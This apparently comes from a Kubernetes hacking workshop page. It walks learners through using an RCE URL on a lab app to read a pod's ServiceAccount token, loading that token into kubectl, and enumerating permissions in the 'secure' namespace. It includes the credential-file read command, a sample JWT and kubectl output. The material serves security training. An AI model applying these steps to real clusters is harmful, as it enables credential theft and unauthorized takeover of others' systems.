


# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 3: Cluster fact finding](#part-3--cluster-fact-finding)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 3: Cluster fact finding

1. We want to be able to use `kubectl` to directly access the cluster instead of having to use the clunky
   RCE URL. To do this, we will copy the contents of the token from http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   into a kubectl config file. We have provided a helper script to create that file in the git repo named
   `setup_kubeconfig.sh`. Source that script and enter the following information at its prompts:
   * **Enter token:** paste the full contents of the token
   * **Enter kubernetes API host:** if this were a "real" Kubernetes cluster, we'd put the info from the
     endpoints API reponse but for this workshop, use `localhost:6443` (the Kind cluster default)

   The output should look something like this:

   ```shell
   $ . setup_kubeconfig.sh
   Enter token:
   eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNjkzNDA2MzQ2LCJpYXQiOjE2NjE4NzAzNDYsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJzZWN1cmUiLCJwb2QiOnsibmFtZSI6IndlYmFkbWluLTY5ZGQ2NWM3ZjktaHg5Y3IiLCJ1aWQiOiIwNzliZWI5ZS0yZDVjLTRjMmEtYmRjOS0wZGY1MjgxNThlNjIifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6IndlYmFkbWluIiwidWlkIjoiYmNiYjBiNDUtMDVhYi00MGZhLWJhZmUtZThmYWVhNTIxYjU1In0sIndhcm5hZnRlciI6MTY2MTg3Mzk1M30sIm5iZiI6MTY2MTg3MDM0Niwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OnNlY3VyZTp3ZWJhZG1pbiJ9.C7doss04dM1JPzjhKBsI6YP79aPyVFrrxnPgz6VCkdf3geR7SNtnsO3Gq3Bsr6kOfdsCSieNHV1xFPiLBpYwhgeyJPHRRd3O00kR5k0_Fw5p-6oPKPi34NpJYipCLAjG5hN0ORbi-htAcg4l5K2xM9N9__aAJqZgKrMpJj6Fq4VsY_xO2e0U0Cl5rre0JFxhQ4JqKdTODine9AhJRXsNpT6m5Y-sFR4vi7ipzs3yYLZio8EIvdiQ9_3g0F13gqLLMilZBrNkEHfhvcJGoxogeHwATl85Xg0nHfyyiIzn0_iVEV6kRl1AtPCFDibAjLFbbiIl2hglWKvWGdXAeMo9FQ
   Enter kubernetes API host:
   localhost:6443
   Creating configuration for https://localhost:6443
   With token:
   { "aud": [ "https://kubernetes.default.svc.cluster.local" ], "exp": 1693406346, "iat": 1661870346, "iss": "https://kubernetes.default.svc.cluster.local", "kubernetes.io": { "namespace": "secure", "pod": { "name": "webadmin-69dd65c7f9-hx9cr", "uid": "079beb9e-2d5c-4c2a-bdc9-0df528158e62" }, "serviceaccount": { "name": "webadmin", "uid": "bcbb0b45-05ab-40fa-bafe-e8faea521b55" }, "warnafter": 1661873953 }, "nbf": 1661870346, "sub": "system:serviceaccount:secure:webadmin" }
   Press any key to continue...
   
   User "snyk" set.
   Cluster "exploited" set.
   Context "exploited" created.
   Switched to context "exploited".
   ```
   This will have created a file named `demokubeconfig` and set your current kubectl context accordingly.


2. Verify the context is set by running `kubectl config current-context`, it should return `exploited`.
   ```shell
   $ kubectl config current-context
   exploited
   ```
   If you see anything other than `exploited` (i.e. `kind-kind` ) then you might not have sourced the script (note the
   `.` before the script name in the above example). To resolve this, either repeat the script with the `.` or simply
   run `export KUBECONFIG=demokubeconfig` and test again with `kubectl config current-context`.


3. With our kubectl context now set, let's try to access the cluster by running `kubectl get pods`:
   ```shell
   $ kubectl get pods
   Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:secure:webadmin" cannot list resource "pods" in API group "" in the namespace "default"
   ```
   _Note: If you do not get the above error and, instead, see Pod(s), you did not set your context correctly
   in the prior step, go back and re-verify._

   The "Forbidden" error we see above is simply telling us that the ServiceAccount that we are using—via
   that token—doesn't have sufficient privileges to list Pods in the `default` Namespace. This error, though
   reveals something useful in the User value: `"system:serviceaccount:secure:webadmin"`.  That string
   contains the name of the Namespace the ServiceAccount is from: `secure`. So, the Pod that we copied the
   token from is running in a Namespace named, "secure".

4. Given that bit if information, let's try to list Pods in the `secure` Namespace by adding `-n secure` to the
   command:
   ```shell
   $ kubectl get pods -n secure
   NAME                        READY   STATUS    RESTARTS   AGE
   webadmin-69dd65c7f9-hx9cr   1/1     Running   0          10m
   ```
   Success! That is the pod we were attacking with our RCE exploit.

5. Let's see what other privileges this token gives us via the command `kubectl auth can-i --list`
   ```shell
   $ kubectl auth can-i --list
   Resources                                       Non-Resource URLs                     Resource Names   Verbs
   endpoints                                       []                                    []               [*]
   ...
   ```
   This shows that, in the `default` Namespace, we have access to all verbs (`*`) on the `endpoints` resource and
   limited access to other boilerplate ones that are uninteresting at the moment (removed from the example
   for brevity.) The lack of any `pods` resource here is why we got that "Forbidden" error in the first
   `get pods` attempt in the default Namespace.

6. Let's try the same command in the `secure` Namespace, `kubectl auth can-i --list -n secure`:
   ```shell
   $ kubectl auth can-i --list -n secure
   Resources                                       Non-Resource URLs                     Resource Names   Verbs
   *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
   ...
   ```
   Here we see the "all resources" wildcard (`*.*`) with the set of all verbs meaning we have full access
   to any resource in the `secure` Namespace!
   

   So now we know we can do quite a few things in the secure namespace, and not a lot in default.
   This is a fairly common pattern, to give service accounts permissions in their own namespace.

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_

#### New info:
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.



#### Timeline of Doom
Updated progress toward total ownership of the target cluster.


## Next step
In the [next step]( 02d-exploit.md) we directly attack the Pod and see what else we can leverage to expand our attack.
